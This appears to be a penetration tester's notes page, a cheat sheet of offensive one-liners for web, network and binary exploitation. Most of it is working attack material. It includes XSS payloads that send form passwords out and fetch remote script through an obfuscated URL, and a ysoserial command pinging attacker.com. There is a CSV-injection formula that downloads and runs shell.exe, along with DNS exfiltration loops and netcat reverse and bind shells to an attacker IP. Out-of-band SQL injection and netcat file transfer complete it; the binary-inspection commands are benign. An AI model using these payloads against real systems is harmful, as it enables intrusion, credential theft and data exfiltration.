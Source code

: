 ```yaml
---
layout: default
tag: notes
---
```


## Web Exploitation

1. \[Payloads\] Cross Site Scripting Attack

   * Exfilterate password with Ajax jquery

   ```javascript
$.get("https://localhost/"+document.getElementsByName('username')[2].value+document.getElementsByName('password')[3].value,0);
```

   * Include external JS script in script context with Ajax jquery

   > *Mainly useful when payload size is very restrictive*

   ```javascript
$.getScript(String.fromCharCode(104,116,116,112,58,47,47,120,115,115,47,116,46,106,115),1)
```

2. \[Payloads\] Deserialization Attacks

   * Dealing with `.exec()` problem in Blind Java Deserialization

   ```bash
java -jar ysoserial.jar CommonsCollections1 'sh -c $@|sh . echo ping $(whoami).<attacker.com>' | base64 | tr -d "\n"
```

3. \[Payloads\] CSV Injection Out of band Exploitation

   ```bash
=cmd|' /C powershell Invoke-WebRequest "https://attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

## Network

1. DNS Exfiltration

   * On Victim machine Linux
   ```bash
for i in `ls`; do host $i.domain.com domain.com;done
```
   * On Attacker's machine
   ```bash
tcpdump -vvv -s 0 -l -n dst host domain.com and dst port 53 -w dump
```
   * To view data only for saved packet dump
   ```bash
tcpdump -r dump|cut -d"?" -f2|awk 'split($0,a,".domain"){print a[1]}'|sort -u
```

2. Reverse and Bind shells  

   * Reverse shell With Traditional Netcat [Without -e flag]
   ```bash
/usr/bin/mknod /tmp/bp p;/bin/nc <attacker_ip> 1337 0</tmp/bp | /bin/sh 1>/tmp/bp
```
   ```bash
/usr/bin/mkfifo /tmp/mf;/bin/nc <attacker_ip> 1337 < /tmp/mf | /bin/sh &>/tmp/mf
```

   * Bind shell with Traditional Netcat [Without -e flag]
   ```bash
	/usr/bin/mkfifo /tmp/bmf;nc -lk 1337 0< /tmp/bmf | /bin/sh &>/tmp/bmf
```

3. Debugging Servers

   * HTTPS Server
   {% highlight python %}

# Generate Server Certificate 
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# python simple-https-server.py

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('localhost', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()

   {% endhighlight %}

   * SMTP Server
   ```bash
python -m smtpd -n -c DebuggingServer localhost:25
```


## Binary Exploitation

1. Linux
   1. Find the offset of /bin/sh in libc
    ```bash
strings -a -t x /lib/libc-2.11.2.so |grep "/bin/sh"
```

    2. Find ROP gadgets
    ```bash
objdump -d -M intel ./<binary.elf>|grep -B5 "ret"
```
    3. Find if stack is execuatble and writable memory locations
    ```bash
readelf -lS ./<binary.elf>
```
    4. Find memory address of Global offset table
    ```Bash
objdump -R ./binary.elf
```
    5. Get Entry point of ELF file
    ```Bash
readelf -h ./binary.elf
```
    6. Get file headers, section headers and program headers
    ```Bash
readelf -e ./binary.elf
```

## Binary Protection Checks

   * Check debug information for binaries
      ```bash
      find . -type f -iname "*.so" -executable -exec echo -e "\r\n" \; -exec file {} \;
      ```

   * To list the symbol information
   ```bash 
   nm -an <binary_name>
   ```

   * Check if stack is executable with gdb-peda checksec
   ```bash
   find . -type f -iname "*.so" -exec echo {} \; -exec gdb -q --batch -ex checksec -ex quit  {} \;
   ```

   * Check if stack is executable readelf
   ```bash
   find . -type f -iname "*.so" -exec echo {} \; -exec readelf -l  {} \; | grep -i -A1 GNU_STACK
   ```

   * Check binary protections for binaries in iOS apps
   ```bash
   find . -type f -executable -exec echo {} \;  -exec sh -c "rabin2 -I {} |grep --color -E \"nx|pic|canary|relocs|stripped\"" \;
   ```

## MISC

* Important Links

  * One liners to download and execute payload (Windows)
      * [https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)


  * Out of Band SQL Injection without quotes (MySQL)  
    ```bash
    12,13) union select LOAD_FILE(group_concat(0x2f2f2f2f,(select @@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2 -- 
    ```
  * Transfer large files over network (netcat & tar)
      ```bash
      tar -cf - <dir>|nc <attacker_ip> <port>
      nc -lnvp <port> |tar -xf -
      ```
